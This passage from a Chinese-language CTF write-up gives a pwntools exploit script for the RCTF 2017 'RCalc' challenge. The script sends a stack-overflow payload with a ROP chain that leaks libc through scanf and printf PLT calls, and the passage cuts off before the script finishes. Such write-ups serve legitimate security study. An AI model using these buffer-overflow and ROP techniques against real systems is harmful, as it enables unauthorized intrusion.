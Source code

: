  很明显，在经历有限次的save_result后就可以覆盖randoms数据，那么只要和栈溢出的数据做一个匹配，就可以顺利地执行ROP操作了。完整的脚本如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *


local = False
debug = True
slog = True

if slog: context.log_level = "debug"

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc-2.24.so')
else:
    libc = ELF('./libc.so.6')

def pwn():
    if local: 
        p = process('./RCalc')
    else:
        p = remote('rcalc.2017.teamrois.cn', 2333)

    p.recvuntil('name pls:')

    pop_rdi = 0x401123
    pop_rsi_r15 = 0x401121
    pattern = 0x401203
    bss = 0x602100

    scanf_plt = 0x4008e0
    printf_plt = 0x400850  
    __libc_start_main_ptr = 0x601ff0

    main_start = 0x401036

    payload = 'a'*8*33 + p64(1) + 'b'*8
    payload += p64(pop_rdi) + p64(pattern) + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(scanf_plt)
    payload += p64(pop_rdi) + p64(pattern) + p64(pop_rsi_r15) + p64(__libc_start_main_ptr) + p64(0) + p64(printf_plt)
    payload += p64(main_start)


    p.sendline(payload)

    def add(num1, num2, is_save=True):
        p.recvuntil('choice:')
        p.sendline('1')
        p.recvuntil('integer:')
        p.sendline(str(num1))
        p.sendline(str(num2))
        p.recvuntil('result?')
        if is_save:
            p.sendline('yes')
        else:
            p.sendline('no')

    def exit():
        p.recvuntil('choice:')
        p.sendline('5')

```